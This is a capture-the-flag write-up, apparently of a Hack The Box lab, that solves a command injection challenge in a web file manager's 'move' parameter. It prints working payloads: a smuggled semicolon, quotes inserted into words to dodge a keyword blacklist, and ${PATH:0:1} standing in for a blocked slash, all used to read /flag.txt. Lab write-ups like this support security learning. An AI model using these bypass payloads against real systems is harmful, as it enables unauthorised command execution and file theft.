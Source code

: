 ## Challenge

What is the content of '/flag.txt'? 

## Solution

I login to the page with the given credentials.

After exploring the site, I see the some functions to copy and move a file.

When I move a file, I see the message displayed.

```sh
Moved from /var/www/html/files/2380029473.txt to /var/www/html/files/tmp
```

The url is: `http://94.237.59.180:35265/index.php?to=tmp&from=2380029473.txt&finish=1&move=1`.

After trying to do that for the second time, I see the message `Error while moving: mv: cannot stat '/var/www/html/files/2380029473.txt': No such file or directory`.

Now after I tried some of the operators, I see that the url-encoded semicolon works, but when I tried the command `whoami` it showed malicious content.

So I put some characters that will be ignored, and make the GET request like:

```http
GET /index.php?to=%3bw'h'oa'm'i&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

This gives the message:

```html
Error while moving: mv: cannot stat '/var/www/html/files/51459716.txt': No such file or directory<br>www-data
```

Now, I will use `cat` to read the file, but also this command is blacklisted, as it shows `malicious content`.

Sending only `c'a't` it's not blocked.

But when I add the content of the flag, it doesn't work:

```http
GET /index.php?to=%3bc'a't%09/flag.txt&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

It shows `Malicious request denied`.

I remove the `flag.txt` and it works, so it means the slash `/` is blacklisted, so I will use the Linux Environment Variable `{PATH:0:1}`.

```http
GET /index.php?to=%3bc'a't%09${PATH:0:1}flag.txt&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

This gives me the flag:

```sh
Error while moving: mv: cannot stat '/var/www/html/files/51459716.txt': No such file or directory<br>HTB{c0mm4nd3r_1nj3c70r}
```



